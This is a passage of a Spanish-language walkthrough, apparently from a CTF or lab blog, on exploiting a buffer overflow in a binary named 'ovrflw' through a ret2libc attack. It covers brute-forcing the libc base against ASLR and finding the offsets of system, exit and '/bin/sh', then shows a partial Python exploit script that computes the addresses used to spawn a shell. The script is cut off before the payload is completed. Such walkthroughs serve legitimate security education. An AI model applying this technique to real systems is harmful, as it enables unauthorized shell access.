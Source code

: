 En consecuencia, será necesario emplear una técnica de "fuerza bruta", ejecutando repetidamente el programa. Este enfoque busca generar colisiones en la memoria, de manera que, en el momento en que el programa apunte a la base de la `libc` que hayamos seleccionado, podamos calcular los desplazamientos (`offsets`) y obtener las direcciones reales. De esta manera, logramos que el exploit sea exitoso al realizar una llamada al sistema para ejecutar `/bin/sh`.

Para obtener los offsets de `system`, `exit` y `bin_sh` podemos haderlo de la siguiente manera:

![eip-overwrite-BBBB](/assets/img/bof/system_exit.png)

> `readelf` constituye una utilidad de línea de comandos en sistemas Linux y Unix, empleada para examinar archivos ejecutables y objetos en formato ELF (Executable and Linkable Format). Los archivos ELF representan un formato habitual para programas y bibliotecas en sistemas operativos fundamentados en Unix, como es el caso de Linux.
{: .prompt-info }

Mediante la ejecución de este comando, logramos obtener el desplazamiento (`offset`) de las funciones `system` y `exit`.

Para adquirir el último desplazamiento (`offset`), será necesario ejecutar el siguiente comando:

![eip-overwrite-BBBB](/assets/img/bof/bin_sh.png)

Ahora que hemos obtenido todos los desplazamientos (`offsets`), podemos crear nuestro exploit.

### Exploit

```python
#!/usr/bin/env python3

# 1. Calcular offset
# 2. Obtener una base de libc
# 3. Obtener offsets (system, exit, bin_sh)
# 4. Calcular direcciones reales
# EIP = system_address + exit_address + bin_sh_address

import sys
from struct import pack
from subprocess import call

# ldd ovrflw
# for i in $(seq 1 1000); do ldd ovrflw | grep libc | awk 'NF{print $NF}' | grep "0xb7df0000" | tr -d '()'; done

base_libc_address = 0xb7df0000

# readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E "\bsystem@@| exit@@"
system_address_offset = 0x0002e9e0
exit_address_offset = 0x0003adb0

# strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
bin_sh_address_offset = 0x0015bb2b

# calculamos las direcciones reales
system_address = pack("<L", system_address_offset + base_libc_address)
exit_address = pack("<L", exit_address_offset + base_libc_address)
bin_sh_address = pack("<L", bin_sh_address_offset + base_libc_address)

```